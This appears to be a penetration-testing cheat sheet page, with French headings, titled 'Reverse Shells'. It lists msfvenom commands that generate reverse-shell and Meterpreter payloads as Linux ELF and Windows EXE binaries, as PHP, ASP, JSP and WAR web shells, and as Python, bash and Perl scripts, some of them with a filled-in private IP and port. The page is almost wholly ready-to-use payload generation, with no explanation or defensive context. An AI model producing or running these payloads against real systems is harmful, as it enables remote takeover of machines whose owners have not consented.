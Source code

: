 ```yaml
---
title: Reverse Shells
permalink: /Reverse_Shells/
---
```


# Reverse Shells

msfvenom
--------

### Payloads Executables

Rever shell en binaire ELF (Linux)

``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

Reverse shell (Windows)

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Payloads Webs

Reverse shell en PHP

``` bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f raw > shell.php
```

Reverse shell en ASP.Net

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.229 LPORT=443 -f asp > meterpreter.asp
```

Reverse shell JSP

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

Reverse shell sous forme de WAR

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### Payloads Scripts

Script python

``` bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

Script bash

``` bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

Script perl

``` bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Ressources
----------

-   [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


